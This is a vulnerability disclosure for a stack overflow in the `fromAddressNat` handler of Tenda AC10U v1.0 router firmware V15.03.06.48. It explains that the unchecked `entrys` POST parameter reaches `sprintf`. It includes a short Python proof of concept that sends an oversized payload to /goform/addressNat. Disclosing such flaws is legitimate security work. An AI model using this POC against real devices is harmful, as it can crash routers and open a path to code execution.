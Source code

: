 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.48 firmware has a stack overflow vulnerability in the `fromAddressNat` function. The `str` variable receives the `entrys` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `entrys` can trigger this security vulnerability.

![image-20240313212033947](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313212033947.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addressNat"
payload = b"a"*1000

data = {"entrys": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313212310723](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313212310723.png)
